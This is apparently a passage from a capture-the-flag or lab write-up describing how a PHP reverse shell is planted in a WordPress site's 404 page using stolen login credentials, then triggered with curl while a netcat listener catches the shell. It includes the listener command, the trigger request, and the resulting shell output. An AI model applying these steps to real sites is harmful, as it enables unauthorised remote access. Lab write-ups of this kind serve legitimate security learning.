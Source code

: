 ### Reverse shell

> A **reverse shell** is a shell session established on a connection that is initiated from the victim's remote machine, not from the attacker’s host.
> Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session (for gaining access) on the target machine.

I've downloaded a basic PHP reverse shell code from [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell).<br>
Prior to uploading the PHP code, the attacking machine's IP address must be assigned to the `$ip` variable.

```php
$ip = '10.38.1.110';  // CHANGE THIS
```

As we can log in to the WordPress site with the acquired credentials, the PHP reverse shell code can be included in a PHP file that already exists.<br>
I have replaced PHP code in the site's 404 page - loading the 404 page, will now will execute the PHP reverse shell code.

> [404](https://en.wikipedia.org/wiki/HTTP_404) is an HTTPS standard response code, to indicate that the browser was able to communicate with a given server, but the server could not find what was requested.

**netcat** is being used to listen to every incoming connections on port `1234`.

```sh
kali@kali$ netcat -lvp 1234
listening on [any] 1234 ...
```

To start the reverse shell, the 404 page can be called with **curl** in another terminal instance.

```sh
kail@kali$ curl http://10.38.1.111/404.php
```

!!!!!!!!!!!!!!!!!

```sh
10.38.1.111: inverse host lookup failed: Host name lookup failure
connect to [10.38.1.110] from (UNKNOWN) [10.38.1.111] 41282
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 02:06:59 up 1 min,  0 users,  load average: 0.03, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

Entering the `id` command, we can see that we're logged in as a daemon and not as an actual user.
This means that our current session does not have any permission (e.g. to read or to modify files).

```sh
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

